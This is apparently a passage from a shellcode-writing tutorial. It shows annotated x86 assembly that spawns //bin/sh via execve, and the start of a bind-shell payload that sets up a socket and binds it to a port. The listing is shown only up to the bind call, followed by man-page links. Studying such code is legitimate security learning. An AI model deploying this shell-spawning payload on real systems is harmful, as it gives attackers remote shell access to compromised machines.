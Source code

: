 - EBX: pointer to the NULL terminated string "//bin/sh"
- ECX: pointer to an array containing the aruments to the program (includes
  //bin/sh string itself)
- EDX: NULL as we are not going to pass any environment to the shell

A couple of points to note for this are
1. Its easier to push strings if they are multiples of 4 in length which is why
we use //bin/sh as it is 8 characters in length and linux doesnt care about the
extra /
2. We have to push the string on the stack in reverse so we push hs/nib//

Here is the code 

{{< highlight x86asm >}}
        push eax                ; push NULL onto stack to termins //bin/sh
        push 0x68732f6e         ; push //bin/sh in reverse onto the stack
        push 0x69622f2f         ; see above
        mov  ebx, esp           ; move address of //bin/sh into EBX (execve's 1st parameter)
        push eax                ; this serves two purposes 1, to use for EDX (we will pass no
                                ; environment to the shell and also as part of the array of
                                ; args that we will pass to as the 2nd arg of execve
        mov  edx, esp           ; see above
        push ebx                ; ESP now points to and array of args [address of //bin/sh, 0x00]
                                ; these will act as the args to //bin/sh
        mov ecx, esp            ; setup the 3rd argument
        mov al, 0x0b            ; set the EAX register to the execve sys call number
                                ; using al to remove any null bytes
        int 0x80                ; make the call
{{< / highlight >}}

Right all done! Below is the code in all its glory!!

{{< highlight x86asm >}}
global _start
section .text

_start:
        xor eax, eax            ; Zero out registers
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        xor edi, edi

        ; Setup Socket call
        mov bl, 0x2             ; AF_INET
        inc cl                  ; SOCK_STREAM = 1 - Leave EDX 0 for IP
        mov ax, 0x0167          ; Socket syscall number
        int 0x80                ; make call

        xchg edi, eax           ; store socketfd

        ; Now call bind
        push edx                ; INADDR_ANY - IP to bind to in soccaddr_in
        push word 0x8813        ; Port in Network byte order
        push word bx            ; Address Family AF_INET
        mov ecx, esp            ; get pointer to structure
        xchg ebx, edi           ; put server socket fd into ebx (use xchg to save a byte)
        mov dl, 0x10            ; set struct len
        mov ax, 0x0169          ; bind syscall
        int 0x80                ; make call


[socket]: https://linux.die.net/man/7/socket  "Socket Man page docs"
[bind]: https://linux.die.net/man/7/bind  "Bind Man page docs"
[listen]: https://linux.die.net/man/7/listen  "listen Man page docs"
[bind]: https://linux.die.net/man/7/bind  "bind Man page docs"
[accept]: https://linux.die.net/man/7/accept  "accept Man page docs"
[dup2]: https://linux.die.net/man/7/dup2  "dup2 Man page docs"
[execve]: https://linux.die.net/man/7/execve  "execve Man page docs"
